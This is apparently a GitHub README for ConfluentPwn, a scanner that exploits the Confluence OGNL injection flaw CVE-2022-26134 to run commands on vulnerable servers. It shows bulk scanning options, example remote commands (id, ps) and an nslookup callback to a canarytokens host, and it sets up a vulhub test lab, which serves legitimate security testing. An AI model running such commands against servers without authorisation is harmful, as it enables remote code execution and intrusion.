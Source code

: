 # ConfluentPwn
Confluence pre-auth ONGL injection remote code execution scanner (CVE-2022-26134).

## Usage
Here is the help output of the tool:
```
$ ./cfscan -h

  +-------------------------------+
  |    C O N F L U E N T P W N    |
  +-------------------------------+

[+] ConfluentPwn by RedHunt Labs - A Modern Attack Surface (ASM) Management Company
[+] Author: Pinaki Mondal (RHL Research Team)
[+] Continuously Track Your Attack Surface using https://redhuntlabs.com/nvadr.

Usage:
  -cmd string
        Command to execute on a vulnerable confluence server. (default "id")
  -file string
        Specify a file containing list of hosts to scan.
  -output string
        Output filepath to write the scan results into. (default "cfpwn-results.csv")
  -regex string
        Regex to match the response header for the command executed.
  -threads int
        Number of threads to use while scanning. (default 20)
  -timeout int
        HTTP timeout in seconds. (default 5)
  -user-agent string
        Custom user-agent string to use. (default "Mozilla/5.0 (ConfluentPwn) Chrome/95.0.4638.69 Safari/537.36")

Examples:
  ./cfscan 1.2.3.4:80 1.1.1.1:8080
  ./cfscan -file urls.txt
  ./cfscan -cmd 'nslookup xxxxxxxxxxxxxxxxx.canarytokens.com 1.1.1.1:80'
  ./cfscan -cmd 'ps' -regex '^\s*PID\s*TTY\s*TIME\s*CMD' http://1.1.1.1:443
```

### Specifying targets
Targets can be specified in two ways:
- Specifying URLs directly via command line.
    ```
    ./cfscan target1 target2 ...
    ```
- Specifying a file containing a list of URLs to scan using the `-file` argument.
    ```
    ./cfscan -file targets.txt
    ```

### Concurrency, timeouts and user-agents
Maximum number of concurrent targets to be processed can be controlled using the `-threads` argument. The default concurrency value is 20.

HTTP timeout value in seconds can be can be specified using the `-timeout` argument. The default timeout is set to 5 seconds.

Custom user-agent can be specified using the `-user-agent` flag, in-case the user wants to track UA strings in their logs.

### Output
The output generated is written to a CSV file, the destination of which can be specified using the `-output` flag. The default output file generated is `cfscan-results.csv`.

The output contains 4 columns:
- target
- confluence version
- vulnerability status
- command output

### Command Specification & Matching
The command to be run on a vulnerable server can be specified using the `-cmd` argument. A regular expression is specified to match the output of the command -- which can be mentioned using the `-regex` flag.

The default command which is run is the `id`, and the regex used to match the output of the command is `uid=\d+?\(\w+?\)\s*?gid=\d+?\(\w+?\)\s*groups=\d+?\(\w+?\)`.

Using the flags together looks like:
```
./cfscan -cmd 'id' -regex 'uid=\d+?\(\w+?\)\s*?gid=\d+?\(\w+?\)\s*groups=\d+?\(\w+?\)' https://1.1.1.1
./cfscan -cmd 'ps' -regex '^\s*PID\s*TTY\s*TIME\s*CMD' http://1.1.1.1:443
```

### Setting up a Test Environment
If you'd like to test out the tool or the vulnerability in general, then you can refer to this: [https://github.com/vulhub/vulhub/tree/master/confluence/CVE-2022-26134](https://github.com/vulhub/vulhub/tree/master/confluence/CVE-2022-26134).

The installation process is quite simple, the below commands do the job:
```
$ mkdir confluentpwn && cd confluentpwn && wget https://raw.githubusercontent.com/vulhub/vulhub/master/confluence/CVE-2022-26134/docker-compose.yml
$ docker-compose up -d
```
The app should now be available at `http://localhost:8090`.

### License & Version
The tool is licensed under the MIT license. See [LICENSE](LICENSE).
Currently the tool is at v0.1.

### Credits
The Research Team at [RedHunt Labs](https://redhuntlabs.com) would like to thank [vulhub](https://github.com/vulhub/vulhub) for providing the docker test image.

##### **[`To know more about our Attack Surface Management platform, check out NVADR.`](https://redhuntlabs.com/nvadr)**